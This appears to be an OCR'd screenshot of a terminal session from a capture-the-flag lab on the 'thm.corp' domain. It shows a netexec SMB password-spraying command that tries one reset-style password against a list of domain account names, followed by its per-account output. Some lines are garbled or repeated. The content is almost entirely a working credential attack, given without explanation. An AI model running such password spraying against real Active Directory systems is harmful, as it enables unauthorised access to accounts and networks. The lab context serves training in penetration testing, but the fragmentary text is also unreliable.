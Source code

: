 Gu-gerardway-distlist1

CH-ecu-distlist1

AUTOMATE

oot@ip-10-201-62-243:~# netexec smb HAYSTACK -u fixednames.txt -p ResetMe123! --continue-on-success
SMB         10.201.13.246   445    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         10.201.13.246   445    HAYSTACK         [-] thm.corp\Administrator:ResetMe123! STATUS_ACCOUNT_RESTRICTION 
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [-] thm.corp\Guest:ResetMe123! STATUS_LOGON_FAILURE 
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [-] thm.corp\krbtgt:ResetMe123! STATUS_LOGON_FAILURE 
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Domain:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Domain:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Domain:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Domain:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Domain:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Cert:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Schema:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Enterprise:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Group:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Read-only:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Cloneable:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Protected:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Key:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Enterprise:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\RAS:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Allowed:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\Denied:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\HAYSTACK:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\DnsAdmins:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\DnsUpdateProxy:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [-] thm.corp\3091731410SA:ResetMe123! STATUS_LOGON_FAILURE 
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)
SMB         10.201.13.246   445    HAYSTACK         [-] thm.corp\ERNESTO_SILVA:ResetMe123! STATUS_LOGON_FAILURE 
SMB         10.201.13.246   445    HAYSTACK         [+] thm.corp\:ResetMe123! (Guest)